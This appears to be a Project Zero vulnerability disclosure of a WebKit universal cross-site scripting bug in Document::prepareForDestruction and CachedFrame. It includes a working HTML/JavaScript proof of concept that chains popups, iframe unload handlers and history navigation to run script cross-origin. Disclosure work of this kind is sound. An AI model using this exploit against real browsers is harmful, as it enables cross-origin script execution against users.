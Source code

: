 # UXSS via Document::prepareForDestruction and CachedFrame

### Reported by lokihardt@google.com, Mar 3 2017

Here's a snippet of Document::prepareForDestruction

```cpp
void Document::prepareForDestruction()
{
    if (m_hasPreparedForDestruction)
        return;
    ...
    detachFromFrame();

    m_hasPreparedForDestruction = true;
}
```

`Document::prepareForDestruction` is called on the assumption that the document will not be used again with its frame. However, if a frame caching is made in `Document::prepareForDestruction`, the document's frame will be stored in a CachedFrame object that will reattach the frame at some point, and thereafter, the document's frame will be never detached due to `m_hasPreparedForDestruction`.

PoC:

```html
<body>
  Click anywhere.
  <script>
    function createURL(data, type = 'text/html') {
      return URL.createObjectURL(new Blob([data], {
        type: type
      }));
    }

    function waitFor(check, cb) {
      let it = setInterval(() => {
        if (check()) {
          clearInterval(it);
          cb();
        }
      }, 10);
    }

    window.onclick = () => {
      window.onclick = null;

      w = open(createURL(''), '', 'width=500, height=500');
      w.onload = () => {
        setTimeout(() => {
          let f = w.document.body.appendChild(document.createElement('iframe'));
          f.contentWindow.onunload = () => {
            f.contentWindow.onunload = null;

            w.__defineGetter__('navigator', () => new Object());

            let a = w.document.createElement('a');
            a.href = 'about:blank';
            a.click();

            setTimeout(() => {
              w.history.back();
              setTimeout(() => {
                let d = w.document;
                w.location = 'javascript:' + encodeURI(`"<script>location = 'https://abc.xyz/';</scrip` + `t>"`);

                let it = setInterval(() => {
                  try {
                    w.xxxx;
                  } catch (e) {
                    clearInterval(it);

                    let a = d.createElement('a');
                    a.href = 'javascript:alert(location);';
                    a.click();
                  }
                }, 10);
              }, 100);
            }, 100);
          };

          w.location = 'javascript:""';
        }, 0);
      };

    }
  </script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1163
